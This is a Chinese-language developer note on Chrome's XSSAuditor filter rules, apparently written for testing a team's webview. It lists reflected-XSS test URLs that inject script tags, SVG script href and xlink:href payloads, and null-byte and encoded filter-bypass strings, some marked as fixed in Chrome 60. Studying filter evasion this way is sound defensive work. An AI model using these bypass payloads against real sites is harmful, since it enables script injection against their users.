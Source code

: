 ## XSSAuditor  https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet
 

XSSAuditor现有过滤规则  分别用firefox跟chrome访问以下链接。 这些是chrome目前的过滤规则

目前存在的漏洞

[官方已修复的(还未合到我们的webview)](#script)
[官方未修复](#param)

后续根据xss_filter_evasion_cheat_sheet来更新规则。


## ScriptToken

*  startTag 检测 首先检测 startTag的name是否在url中 
	* src
	src attribute过滤 规则

			如果是同域并且没有query(?后面的) 那么就不会过滤，其它都会过滤

				http://10.129.193.58:8080/test.php?name=<script src='test.js'></script> 
				http://10.129.193.58:8080/test.php?name=<script src='test.js?t=1'></script>                                                                    
				http://10.129.193.58:8080/test.php?name=<script src='http://10.129.193.59/test.js'></script>
				http://10.129.193.58:8080/test.php?name=<script src='http://10.129.193.59/test.js?t=1'></script>

	* svg:href
			在svg嵌入的脚本，被检测到有svg::href属性也会拦截  chrome会拦截  tips: <script></script>在chrome下必须闭合 firefox不需要
			
				http://10.129.193.58:8080/test.php?name='<svg><circle cx='100' cy='50' r='40' stroke='black' stroke-width='2' fill='red'/><script href='test.js' type='text/javascript'></script>'
				
	* xlink:href
			在svg嵌入的脚本中，被检测到有 xlink:href也会被拦截
			
				http://10.129.193.58:8080/test.php?name='<svg><circle cx='100' cy='50' r='40' stroke='black' stroke-width='2' fill='red'/><script xlink:href='test.js' type='text/javascript'></script>'

	
* 如果script开始标签后面不是endTag 继续过滤 script标签中的内容  如果内容在url中检测到
   就会触发xss
  <h4 id="script">漏洞已修复</h4>
   
		 http://10.129.193.58:8080/xss.php?html_xss=%3Cscript%3Ealert(hacked)%0a--%3E // chrome60已修复
		 http://10.129.193.58:8080/test.php?name=%3c%62%72%3e%00%00%00%00%00%00%00%00%00<ScriPt>ALeRt('hacked')</scriPt> // chrome60已修复
		 http://10.129.193.58:8080/test.php?name=%3c%62%72%3e%00%00%00%00%00%00%00%00%00%3c%73%63%72%69%70%74%3e%61%6c%65%72%74%28%31%29%3c%2f%73%63%72%69%70%74%3e // chrome60已修复
		 
    
## ObjectToken

* startTag 检测  首先检测 startTag的name是否在url中
	* data属性
	data 属性过滤规则
  跟src不一样的是，不管同源还是不同源xss全都拦截了
